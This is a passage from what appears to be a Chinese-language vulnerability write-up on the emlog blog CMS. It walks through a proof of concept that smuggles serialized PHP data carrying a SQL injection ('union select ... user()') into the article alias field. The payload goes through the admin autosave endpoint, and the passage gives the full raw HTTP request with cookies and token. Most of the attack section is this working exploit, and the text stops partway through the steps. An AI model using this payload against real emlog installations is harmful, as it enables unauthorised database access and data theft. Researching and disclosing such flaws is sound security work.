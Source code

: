 ![image-20231127165335177](assets/1702521318-eca3f67bec0cf48987301483430ac6da.jpg)

这里在新建两篇文章的时候，抓包在响应包中可以看到对应的文章 id，分别是 1，2。

![image-20231127165016723](assets/1702521318-189c4d3c1e170c1bee25af4c347e6b08.jpg)

新建文章后分别发送 poc：

先修改 id 为 2 的 blog，设置 alias=";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x：

```php
POST /emlog/admin/article_save.php?action=autosave HTTP/1.1
Host: localhost
Content-Length: 156
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: localhost
Referer: http://localhost/emlog/admin/article.php?action=write
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7grsstsv9fpp445046hr5qg91b; EM_AUTHCOOKIE_2VFlOu2HqXVBqJserIAh2tEXKh3zj5lf=111113%40qq.com%7C0%7C9cd3b0393151a659948c6af2cccd4bd1; EM_AUTHCOOKIE_E20hbPXCTXVX1dnkOeAmbWosM5xrnclU=111111%40qq.com%7C0%7Cb6e5886576488db453b65b8387b7cf37; em_saveLastTime=1701075174154
Connection: close

logcontent=111111&logexcerpt=11111111&title=new1&alias=a";i:4;s:1:"x&postdate=2023-10-13+20:32:18&token=3a43014ba94a7ab75c5e897787da1fa757b502e8&as_logid=10
```
